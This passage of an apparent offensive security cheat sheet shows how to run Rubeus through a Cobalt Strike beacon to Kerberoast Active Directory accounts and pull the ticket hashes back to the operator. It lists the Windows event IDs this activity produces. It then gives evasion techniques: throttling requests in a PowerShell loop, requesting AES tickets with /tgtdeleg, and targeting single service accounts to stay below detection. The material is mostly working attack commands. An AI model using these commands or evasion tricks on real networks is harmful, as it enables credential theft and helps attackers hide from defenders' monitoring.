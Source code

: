 
### Rubeus + Cobalt Strike

```
# Execute Rubeus via beacon
execute-assembly C:\Tools\Rubeus.exe kerberoast /outfile:C:\Temp\hashes.txt

# Download hashes
download C:\Temp\hashes.txt

# Monitor for tickets
execute-assembly C:\Tools\Rubeus.exe monitor /interval:5
```

---

## Detection Evasion

### What Rubeus Creates (Detectable)

**Event Logs:**
- Event ID 4769: Kerberos service ticket requested (Kerberoasting)
- Event ID 4770: Kerberos service ticket renewed
- Event ID 4768: Kerberos TGT requested
- Event ID 4771: Kerberos pre-auth failed (invalid user)

**Network Traffic:**
- Multiple Kerberos AS-REQ/TGS-REQ in short time
- Requests for many SPNs from single host

---

### Evasion Techniques

**1. Slow Down Requests**
```powershell
# No built-in delay in Rubeus
# Workaround: Script to space out requests

$users = Get-Content users.txt
foreach ($user in $users) {
    Rubeus.exe kerberoast /user:$user
    Start-Sleep -Seconds 30
}
```

**2. Use AES Encryption (Stealthier)**
```powershell
# AES instead of RC4 (less commonly monitored)
Rubeus.exe kerberoast /tgtdeleg
```

**3. Target Specific SPNs (Less Noisy)**
```powershell
# Instead of requesting ALL SPNs, target one
Rubeus.exe kerberoast /user:sqlservice
```
